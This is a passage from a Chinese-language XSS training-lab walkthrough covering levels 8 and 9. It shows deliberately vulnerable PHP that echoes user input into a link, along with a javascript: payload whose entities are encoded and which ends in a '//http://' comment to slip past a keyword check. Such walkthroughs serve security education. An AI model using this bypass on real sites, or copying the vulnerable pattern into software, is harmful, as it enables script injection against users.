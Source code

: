 因为href,我们刚好可以利用那个js的伪协议

`echo '<center><BR><a href="javascript:alert('YYDS')">友情链接</a></center>';`

# level9

答案是在level8的基础上添加原始字符串 `//http://`

```php
&#106;&#97;&#118;&#97;&#115;&#99;&#114;&#105;&#112;&#116;&#58;&#97;&#108;&#101;&#114;&#116;&#40;&#39;&#89;&#89;&#68;&#83;&#39;&#41;//http://
```

```php
<?php 
ini_set("display_errors", 0);
$str = strtolower($_GET["keyword"]);
$str2=str_replace("script","scr_ipt",$str);
$str3=str_replace("on","o_n",$str2);
$str4=str_replace("src","sr_c",$str3);
$str5=str_replace("data","da_ta",$str4);
$str6=str_replace("href","hr_ef",$str5);
$str7=str_replace('"','&quot',$str6);
echo '<center>
<form action=level9.php method=GET>
<input name=keyword  value="'.htmlspecialchars($str).'">
<input type=submit name=submit value=添加友情链接 />
</form>
</center>';
?>
<?php
if(false===strpos($str7,'http://'))
{
  echo '<center><BR><a href="您的链接不合法？有没有！">友情链接</a></center>';
}
else
{
  echo '<center><BR><a href="'.$str7.'">友情链接</a></center>';
}
?>
```

先字符串过滤

然后对于转义就没办法

后面有一个关键字的检测,必须含有http://

所以…

对js代码做一个编码.然后对检查字符用原始的字符,但是要通过js注释去取出语义

js的注释

```jsx
//
/**/
```
